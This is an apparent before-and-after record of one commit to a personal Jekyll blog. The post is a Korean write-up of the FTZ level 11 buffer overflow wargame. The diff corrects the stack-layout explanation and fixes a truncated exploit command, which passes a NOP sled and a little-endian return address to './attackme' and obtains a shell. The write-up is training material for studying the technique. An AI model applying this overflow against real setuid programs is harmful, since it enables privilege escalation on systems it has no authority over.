

Before and after one commit to kminito/kminito.github.io, a Jekyll site: the page built from _posts/hacking/2019-04-18-FTZ-11.md, in a window 1280 px wide and 900 px high, scrolled down 5358 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
post modified

````diff
--- a/_posts/hacking/2019-04-18-FTZ-11.md
+++ b/_posts/hacking/2019-04-18-FTZ-11.md
@@ -110,7 +110,7 @@ End of assembler dump.
 위의 소스 코드를 살펴보면 setreuid 함수를 콜하기 전에 메모리의 공간을 확보하는 게 두 번으로, 총 108+8 = 110 => 272바이트만큼의 스택이 확장되었습니다.
 여기서 main+9는 SFP(Base Pointer)와 RET(Return address)위한 것이므로, 메모리 구성을 다시 말하면 아래와 같습니다.
 
-__256(buffer) + 8 (dummy) + 4 (sfp: 이전 함수의 base pointer - 여기서는 메인 함수) + 4 (ret :return address - 메인으로의 return address)__
+__256(buffer) + 8 (dummy) + 4 (sfp: 이전 함수의 base pointer) + 4 (ret :return address - 이전 함수로의 return address)__
 
 
 
@@ -242,7 +242,7 @@ int main()
 
 위에서 살펴본 스택의 메모리 구조입니다.
 
-__256(buffer) + 8 (dummy) + 4 (sfp: 이전 함수의 base pointer - 여기서는 메인 함수) + 4 (ret :return address - 메인으로의 return address)__
+__256(buffer) + 8 (dummy) + 4 (sfp: 이전 함수의 base pointer) + 4 (ret :return address - 이전 함수로의 return address)__
 
 
 이제 버퍼의 268바이트에 `\x90`이 들어가고, 나머지 4바이트에 위에서 구한 `egg`의 주소값 `0xbffffdc8`이 들어가도록 하면 됩니다.  리틀엔디안 (Little-endian) 임을 감안해서 역순으로 적어줍니다.
@@ -252,7 +252,7 @@ __256(buffer) + 8 (dummy) + 4 (sfp: 이전 함수의 base pointer - 여기서는
 
 ```
 [level11@ftz tmp]$ cd ~
-<tackme `python -c 'print "\x90"*268+"\xc8\xfd\xff\xbf"'`
+[level11@ftz tmp]$ ./attackme `python -c 'print "\x90"*268+"\xc8\xfd\xff\xbf"'`
 sh-2.05b$
 ```
 
````
